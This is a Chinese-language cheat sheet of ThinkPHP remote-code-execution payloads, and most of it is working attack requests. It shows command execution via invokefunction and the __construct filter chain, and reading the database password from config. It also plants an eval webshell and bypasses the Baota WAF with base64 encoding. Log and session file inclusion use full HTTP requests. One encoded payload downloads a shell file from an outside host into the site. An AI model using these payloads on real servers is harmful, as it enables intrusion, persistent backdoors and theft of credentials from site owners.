


# ThinkPHP RCE渗透技巧
## 1,通用exp使用场景

```
通用原始打phpinfo的exp:
POST:?s=captcha
-----------------------------------------------------------
_method=__construct
&method=get
&filter[0]=phpinfo
&filter[1]=var_dump
&get[]=-1

其他收集：

?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
?s=index/\think\Request/input&filter=phpinfo&data=1
?s=index/think\config/get&name=database.hostname
?s=index/think\config/get&name=database.password
?s=index/\think\Request/input&filter=system&data=id
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
?s=index/\think\view\driver\Php/display&content=<?php%20phpinfo();?>
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
### (1)php版本小宇7.0.3
查看phpinfo使用assert函数配合antsword直接链接，密码1
```
使用assert构造antsword直接链接:
POST:?s=captcha
-----------------------------------------------------------
_method=__construct 
&method=get 
&filter[]=assert
&get[]=@eval($_POST['1']);

```
链接方法：


进阶玩法：遇到宝塔防火墙拦截：

众所周知，waf拦截的都是检测传入参数中是否含有函数，比如直接eval(,asser(,总之就是函数带括号了，我们上面eval($_POST[1]);直接就是一句话的原型，所以被拦截很正常，我们来想办法把参数只变成函数名不带特殊符号，这样在post穿参数的时候看起来就只是字符串了
```angular2html
直接放exp
base64编码绕过：
POST:?s=captcha
-----------------------------------------------------------
_method=__construct
&method=get
&filter[0]=base64_decode
&filter[1]=assert
&get[]=QGV2YWwoJF9QT1NUWycxJ10pOw==
```
补一张图

### (2)php版本>=7.1
```angular2html
常规操作，日志包含
写入日志：
/?s=captcha
_method=__construct
&method=get
&filter[]=call_user_func
&server[]=phpinfo
&get[]=<?php eval($_POST[1337]); ?>


进阶过防火墙写日志
_method=__construct
&method=get
&filter[]=base64_decode
&filter[]=call_user_func
&server[]=phpinfo
&get[]=PD9waHAgZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsxMzM3XSkpOyA/Pg==
 
备注:既然写日志需要过waf那么写马肯定，上面base64写入的一句话为<?php eval(base64_decode($_POST[1337])); ?>
因为小马也加了base64，所以我们传入b64加密后的代码：

1337=dmFyX2R1bXAoY29weSgiaHR0cDovL2NrOTk2LnRvcC9ubWEudHh0IiwiLi9ydW50aW1lL3NoZWxsLnBocCIpKTs=


日志包含
_method=__construct
&method=get
&filter[]=think\__include_file
&server[]=phpinfo
&get[]=../data/runtime/log/201901/21.log
&1337=phpinfo();
==============下面是过waf的
_method=__construct
&method=get
&filter[]=think\__include_file
&server[]=-1
&get[]=./runtime/log/202205/18.log
&1337=dmFyX2R1bXAoY29weSgiaHR0cDovL2NrOTk2LnRvcC9ubWEudHh0IiwiLi9ydW50aW1lL3NoZWxsLnBocCIpKTs=

常规操作2，session包含（同理上面可以使用各种加密数据包去绕过）

POST /tp5.0.23/public//?s=captcha HTTP/1.1
Host: 192.168.2.135
Cookie: PHPSESSID=ThisIsATestaaaaa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.135/tp5.0.23/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 101

_method=__construct&filter[]=think\Session::set&method=get&get[]=<?php eval($_POST['x'])?>&server[]=1

包含session
POST /tp5.0.23/public//?s=captcha HTTP/1.1
Host: 192.168.2.135
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.135/tp5.0.23/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

_method=__construct
&method=get
&filter[]=think\__include_file
&get[]=/var/lib/php/session/sess_ThisIsATestaaaaa
&server[]=1
```
# 2，复杂场景
## php版本小宇7.0.3
```
禁用assert函数时候可使用php7版本的pload

思路1：注册账号，找上传点上传图片
思路2：寻找上传点
思路3：已知路径扫描

以下针对思路2进行拓展：
先通过phpinfo获取网站的路径

POST:?s=captcha
_method=__construct 
&method=get 
&filter[]=phpinfo
&get[]=-1

在列出目录下面项目，一个一个去找日志规则和上传路径

POST:?s=captcha
_method=__construct 
&method=get 
&filter[]=scandir
&filter[]=var_dump
&get[]=/www/wwww/public   目录

```

